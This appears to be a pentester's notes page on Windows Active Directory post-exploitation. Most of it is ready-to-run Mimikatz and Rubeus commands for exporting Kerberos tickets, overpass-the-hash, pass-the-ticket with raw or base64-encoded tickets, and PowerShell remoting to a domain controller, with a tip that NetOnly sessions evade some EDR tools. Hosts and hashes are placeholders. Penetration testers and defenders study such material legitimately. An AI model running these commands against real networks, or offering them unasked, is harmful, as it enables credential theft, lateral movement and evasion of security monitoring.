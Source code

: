 ```yaml
---
description: >-
  The only difference from Post-Exploitation in #Pentesting is that here we
  would use only AD-related  PE vectors which is executed in Windows OS.
---
```


# Windows Post-Exploitation

## Exporting Tickets

### **Mimikatz**

```powershell
sekurlsa::tickets /export
or if don't work try
sekurlsa::ekeys
```

The tickets ending with a <mark style="color:green;">**$**</mark> symbol represent the computer account, which requires a ticket to communicate with the **AD**. User tickets, on the other hand, include the user's name, followed by an <mark style="color:green;">**@**</mark> symbol that separates the service name and the domain. For example: <mark style="color:green;">**\[randomvalue]-username@service-domain.local.kirbi**</mark>.

### **Rubeus**

```powershell
Rubeus.exe dump /nowrap
```

## Overpass-The-Hash

When <mark style="color:green;">**Pass-The-Hash**</mark> is mostly used to bypass regular login, then <mark style="color:green;">**Overpass-The-Hash**</mark> is using hash for requesting **TGT** from **KDC**.

### Mimikatz

```powershell
sekurlsa::pth /domain:amogus.kek /user:carni7 /ntlm:1293uo1uwfoi1hw081
```

### Rubeus

Here we use <mark style="color:red;">**asktgt**</mark> module to request a **TGT** using hash and **KDC**.

```powershell
Rubeus.exe asktgt /domain:amogus.kek /user:carni7 /aes256:1293uo1uwfoi1hw081 /nowrap
```

## Pass-The-Ticket

<mark style="color:green;">**Pass-The-Ticket**</mark> in contrast of <mark style="color:green;">**Pass-The-Hash**</mark> and <mark style="color:green;">**Overpass-The-Hash**</mark> use a ticket to gain access to the TGS and then for service.

### Mimikatz

```
kerberos::ptt "C:\Users\carni7\Desktop\Mimikatz\[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi"
```

### Rubeus PTT Using Hash

```
Rubeus.exe asktgt /domain:amogus.kek /user:carni7 /rc4:1293uo1uwfoi1hw081 /ptt
```

Unlike command for <mark style="color:green;">**Overpass-The-Hash**</mark>, here we are using <mark style="color:red;">**/ptt**</mark> to do both <mark style="color:green;">**Overpass-The-Hash**</mark> and <mark style="color:green;">**Pass-The-Ticket**</mark> simultaneously. But that only works if we give <mark style="color:red;">**/hash**</mark>: instead of ticket

### Rubeus PTT Using Ticket

```powershell
Rubeus.exe ptt /ticket:[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi
```

### Rubeus PTT Using Encoded Ticket

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi"))
```

```powershell
Rubeus.exe ptt /ticket:LETSIMAGINETHISISOURBASE64ENCODEDKERBEROSTICKET
```

## Powershell Remoting

<mark style="color:red;">**PowerShell remoting**</mark> is a feature that allows users to run **PowerShell** commands or scripts on remote computers. It's built on the **WinRM** service

### Mimikatz

```powershell
kerberos::ptt "C:\Users\carni7\Desktop\Mimikatz\[0;7f830]-5-2-43f10000-carni7@krbtgt-amogus.kek.kirbi"
Enter-PSSession -ComputerName DC01
```

### **Rubeus**

```powershell
Rubeus.exe asktgt /domain:amogus.kek /user:carni7 /rc4:1293uo1uwfoi1hw081 /ptt
Enter-PSSession -ComputerName DC01
```

### Rubeus NetOnly Session

We can use <mark style="color:green;">**createnetonly**</mark> options to make NetOnly session, which don't have access for local machine, but could access services. Later we could use Rubeus <mark style="color:red;">**/ptt**</mark> command to insert **TGT. NetOnly** sessions are less detectable and could evade some **EDR's**.

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
